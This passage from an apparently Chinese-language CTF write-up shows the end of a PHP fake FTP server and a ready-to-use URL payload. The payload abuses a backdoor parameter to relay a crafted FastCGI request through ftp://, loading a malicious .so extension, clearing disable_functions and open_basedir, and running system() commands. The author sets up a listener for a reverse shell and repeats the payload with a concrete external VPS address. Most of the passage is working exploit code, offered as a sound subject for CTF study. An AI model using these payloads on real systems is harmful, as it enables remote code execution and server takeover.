 ```php
        fwrite($conn, "150 File status okay. About to open data connection.\n" );
        sleep(3);
        fwrite($conn, "226 Transfer complete.\n" );
        fclose($conn);
    }
    fclose($socket);
}

```

然后我们构造如下payload

vps地址和端口(这里的端口为py文件中开启Fake FTP的端口)记得改下

```
/add_api.php?backdoor=$file=$_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://ip:23/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02B%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B6PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00

```



一切准备完成

我们开两个vps会话，一个用来监听端口（这个端口是之前so文件里的端口），一个用来开启Fake FTP，也就是执行py文件

![image-20241108213906106](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082139212.png)

![image-20241108213928173](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082139213.png)

然后执行我们的payload

```
/add_api.php?backdoor=$file=$_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://60.204.158.87:23/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02B%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B6PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```
